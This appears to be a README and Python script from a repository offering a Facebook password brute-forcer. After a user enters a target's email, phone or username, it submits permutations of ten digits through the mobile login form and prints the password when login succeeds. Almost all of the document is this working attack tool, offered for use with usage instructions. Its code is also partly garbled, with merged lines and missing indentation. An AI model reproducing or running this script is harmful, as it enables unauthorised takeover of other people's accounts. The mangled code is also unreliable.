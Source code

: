 //////////////////////////////////////////////////////////////////////////
# fb-bruteforce
simple python bruteforce script using itertools and mechanize for facebook
open linux terminal use <b>python</b> <b>script.py</b> hit enter and enter <b>mail</b> or <b>phone</b> or <b>username</b>
with quotes
phone example<b>'06xxxxxxxxx'</b>
mail example<b>'example@mail.com'</b>
username example<b>'example.name'</b>
//////////////////////////////////////////////////////////////////////////
#!/usr/bin/python # -*- coding: utf-8 -*-
import mechanize import
itertools brauzer = mechanize.Browser()
kolacici = mechanize.CookieJar()
brauzer.set_cookiejar(kolacici)
brauzer.set_handle_refresh(True)
brauzer.set_handle_redirect(True)
brauzer.set_handle_robots(False) 
brauzer.addheaders = [('User-agent', 'Mozilla/1.0 (compatible; MSIE 1.0; Windows NT 1.1)')]
pokusaj=itertools.permutations("0123456789",10)
url="http://m.facebook.com/home.php"
brauzer.open(url)
brauzer.select_form(nr = 0)
email=input('mail:')
print brauzer.title()
for broj in pokusaj: brauzer.open(url)
brauzer.select_form(nr = 0)
brauzer.form['email']=email
brauzer.form['pass']=''.join(broj)
print 'Kombinacija:',brauzer.form['pass']
odgovor=brauzer.submit()
if brauzer.title()=="Facebook":
print ('lozinka je:',''.join(broj))
break
if brauzer.title()=="Please try again later": 
print("'Please try again later'(blokada zbog mnogo pokusaja!!!)")
break
